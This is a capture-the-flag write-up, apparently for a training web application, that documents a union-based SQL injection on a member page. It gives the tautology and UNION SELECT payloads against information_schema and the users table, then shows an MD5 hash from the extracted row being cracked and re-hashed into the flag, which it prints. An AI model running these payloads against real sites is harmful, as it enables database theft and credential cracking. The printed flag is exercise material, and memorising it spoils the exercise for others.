 # UNION BASED SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Discovery
go to
```
 http://{IP_ADDRESS}/index.php?page=member
```
tryed a simple sql statement 
```
1 OR 1=1 
The SQL above is valid and will return ALL rows from the "users" table, since OR 1=1 is always TRUE.
```

Retrieve columns names with the table they belong to:
```
-1 UNION SELECT table_name,concat(column_name) FROM information_schema.COLUMNS 
```

Retrieve the id of the user (flag):
```
-1 UNION SELECT first_name, user_id FROM users
```

started investagting on that user (flag) by geting all its information each time changing col1, col2:
```
-1 UNION SELECT [col1_name], [col2_name] FROM db_default WHERE user_id=5
```

The table below show the result 

| user_id | first_name | last_name | town | country | planet | commentaire                                                                   | countersign 						|
| ------- | ---------- | --------- | ---- | ------- | ------ | ----------------------------------------------------------------------------- | ----------- 						|
|   5     | flag       | GetThe    |  42  |    42   |   42   | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |

following the instruction :
* analyzing the password using [cipher identifier](https://www.dcode.fr/cipher-identifier)
* decrypt the password using [md5decrypt - md5](https://md5decrypt.net/en/)
* 5ff9d0165b4f92b14994e5c685cdce28 gives FortyTwo 
* lower all the char, encrypt it using Sh256
* flag is 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## Helpers:
- [retrieve data from db](https://www.sqlinjection.net/table-names/)
- [dcode - cipher identifier](https://www.dcode.fr/cipher-identifier)
- [md5decrypt - md5](https://md5decrypt.net/en/)

